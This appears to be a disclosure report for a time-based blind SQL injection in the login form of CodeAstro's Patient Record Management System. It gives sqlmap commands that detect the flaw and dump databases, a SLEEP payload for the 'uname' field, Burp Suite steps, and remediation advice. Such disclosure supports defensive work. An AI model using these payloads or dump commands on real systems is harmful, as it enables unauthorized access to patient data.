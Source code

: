 # 🧾 Vulnerability Report – SQL Injection in PRMS Login Portal

**Author:** Subhash Paudel  
**Date:** 29 June 2025  
**Target URL:** `http://localhost/PRMS-php/login.php`  
**Project Source:** CodeAstro  
**Version:** 1.0  
**Severity:** Critical  
**Technology Stack:** Apache 2.4.58, PHP 8.0.30, MariaDB (MySQL ≥ 5.0.12)

---

## 🧩 Summary

A **Time-Based Blind SQL Injection** vulnerability was discovered in the login portal of the Patient Record Management System (PRMS), developed by CodeAstro. The vulnerability allows unauthenticated attackers to inject arbitrary SQL commands, enabling unauthorized access, data extraction, and potentially full compromise of the database.

---

## 🔐 Authentication (For Testing)

- **Username:** `liam`  
- **Password:** `Password@123`  
- **Login Page:** [http://localhost/PRMS-php/](http://localhost/PRMS-php/)

![Login Page](https://github.com/user-attachments/assets/df0a6607-4320-411b-b80e-8864e66a7574)

---

## 🚨 Vulnerable Endpoint

| HTTP Method | Endpoint URL                          | Affected Parameter |
|-------------|----------------------------------------|--------------------|
| POST        | `http://localhost/PRMS-php/login.php` | `uname`            |

---

## ⚙️ Automated Exploitation (SQLMap)

```bash
sqlmap -u "http://localhost/PRMS-php/login.php?uname=test" \
--data="uname=test&psw=123" --batch --level=5 --risk=3
```
![image](https://github.com/user-attachments/assets/dacd08b7-c05e-49c7-979b-c9ef2c2386c6)

**SQLMap Result:**
- Injection Type: **Time-Based Blind**
- DBMS: **MySQL (MariaDB)**
- Injection Confirmed

**Payload Used:**
```sql
uname=admin41839116' AND (SELECT 8601 FROM (SELECT(SLEEP(5)))pSRM) AND 'eHel'='eHel&psw=Password@123
```

### 📂 Database Dump Example

To dump the databases:
```bash
sqlmap -u "http://localhost/PRMS-php/login.php" \
--data="uname=admin&psw=Password@123" \
--dbs --batch
```

![SQLMap Dump](https://github.com/user-attachments/assets/6d6e6756-e4ad-47eb-b887-a8daf0d43ab5)

---

## 🧪 Manual Exploitation (For Educational Purposes Only)

### 1. Intercept the Request
- Use Burp Suite to capture login request with dummy credentials:
```http
POST /PRMS-php/login.php HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded

uname=admin&psw=Password@123
```
![Burp Repeater Payload](https://github.com/user-attachments/assets/d1995966-8ffc-43f8-8f9c-96587855745b)


### 2. Modify the Payload in Burp Repeater
Change `uname` to:
```sql
admin41839116' AND (SELECT 8601 FROM (SELECT(SLEEP(5)))pSRM) AND 'eHel'='eHel
```

### 3. Send and Observe
Click **Send** in Repeater. A **5-second delay** confirms the injection point.

![Burp Delay Response](https://github.com/user-attachments/assets/00ff9b95-837b-4aae-a847-b16edde12bf0)

---

## ⚠️ Security Risks

| Risk                        | Description                                                                 |
|-----------------------------|-----------------------------------------------------------------------------|
| Unauthorized Access         | Bypass authentication and log in as any user including administrators.      |
| Data Breach                 | Dump sensitive user, patient, or medical records.                          |
| System Compromise           | Modify or delete records, inject malicious data, or gain RCE (indirectly). |
| Regulatory Non-compliance   | May violate HIPAA, GDPR, or other data protection laws.                    |

---

## 🛡️ Mitigation & Recommendations

| Type            | Recommendation                                                                 |
|-----------------|---------------------------------------------------------------------------------|
| Input Validation| Use parameterized queries / prepared statements in PHP (e.g., PDO or MySQLi).  |
| WAF             | Deploy a Web Application Firewall to block SQLi patterns.                      |
| Least Privilege | Restrict DB user permissions; avoid using root-level DB users for apps.        |
| Logging         | Log all failed login attempts and monitor for injection patterns.              |
| Secure Errors   | Disable verbose error messages that could help attackers.                      |
| Code Review     | Conduct manual code review and static analysis for user input handling.        |

---

## 🏁 Conclusion

This SQL injection flaw is highly exploitable and critically dangerous. It can result in full database compromise without authentication. Immediate remediation is strongly advised.

---

## 📚 References

- [OWASP SQL Injection Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- [SQLMap Official Documentation](https://github.com/sqlmapproject/sqlmap/wiki)
- [CWE-89: Improper Neutralization of Special Elements used in an SQL Command](https://cwe.mitre.org/data/definitions/89.html)
